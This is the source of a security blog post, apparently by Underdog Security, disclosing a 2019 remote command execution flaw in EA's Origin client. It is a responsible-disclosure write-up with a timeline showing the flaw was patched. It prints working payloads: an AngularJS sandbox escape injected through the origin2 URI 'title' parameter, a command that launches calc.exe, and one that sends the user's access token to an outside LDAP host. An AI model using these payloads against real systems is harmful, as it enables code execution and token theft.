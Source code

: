 ```yaml
---
layout: post
title: "RCE in EA's Origin client"
date: 2019-04-16
author: Admin
img: post01.jpg
thumb: thumb01.jpg
description: "Hello, and welcome! As you probably gathered by the title, today we will be going over a remote command execution vulnerability identified in EA's Origin desktop client. This issue was both identified and reported by Dominik Penner and Daley Bee of Underdog Security."
---
```


Hello, and welcome! As you probably gathered by the title, today we will be going over a remote command execution vulnerability identified in EA's Origin desktop client. This issue was both identified and reported by Dominik Penner and Daley Bee of Underdog Security.
<!--more-->

### What is Origin?
Origin is an online gaming, digital distribution and digital rights management platform developed by Electronic Arts that allows users to purchase games for PC and mobile platforms. Origin is home to gaming title giants such as Apex Legends, The Sims, and Battlefield. 
### What did we find?
We located a client-sided template injection, where we proceeded to use an AngularJS sandbox escape and achieve RCE by communicating with QtApplication's QDesktopServices.
### Technical explanation
We were simply curious and looking around at the `origin2` URI handler, when we came across a parameter where we could supply data that would be echoed back to us in the Origin client, prompting us to start tinkering. 

Example: 
{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title=example
{% endraw %}
{% endhighlight %}

![example title](/assets/origin_orce/example_title.jpg)

After some quick testing, we learnt that there was a client-sided template injection in the `title` parameter. 

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{668.5*2}}
{% endraw %}
{% endhighlight %}

![1337 template injection](/assets/origin_orce/template_injection.jpg)

What next!? We already knew due to prior tinkering that Origin ran on AngularJS. Thanks to amazing work by other researchers in the past, with a simple Google search, we can find plenty of working AngularJS sandbox escapes. We used these: [link to payloads](https://gist.github.com/mccabe615/cc92daaf368c9f5e15eda371728083a3)

With these payloads, we were able to escape the AngularJS sandbox using the template injection. This is the payload we used: 

{% highlight ruby %}
{% raw %}
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(l),a')}}
{% endraw %}
{% endhighlight %}

The entire payload ended up becoming: 

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}
{% endraw %}
{% endhighlight %}

![sandbox escape](/assets/origin_orce/sandbox_escape.jpg)

We then learnt that by leveraging the in-client API, you can communicate with the QtApplication's QDesktopServices. 

To pop a calculator, we used the following payload:

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,Origin.client.desktopServices.asyncOpenUrl("calc.exe"),a')}}
{% endraw %}
{% endhighlight %}

As normal with an RCE, this would've allowed an attacker to execute any kind of commands their heart desired on a targets machine. Not good to say the least...

An attacker could also steal a users access token many of ways, for example, through LDAP: 

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,Origin.client.desktopServices.asyncOpenUrl("ldap://safe.tld/o="+Origin.user.accessToken()+",c=UnderDog"),a')}}
{% endraw %}
{% endhighlight %}

Moral to the story Origin; sanitize your inputs!

Thank you for reading!

----
### Disclosure timeline
* April 15, 2019 - Vulnerability identified
* April 16, 2019 - Vulnerability reported
* April 16, 2019 - Vulnerability patched
* April 16, 2019 - Public disclosure

* Dominik Penner - [Twitter](https://twitter.com/zer0pwn)
* Daley Bee - [Twitter](https://twitter.com/daley)

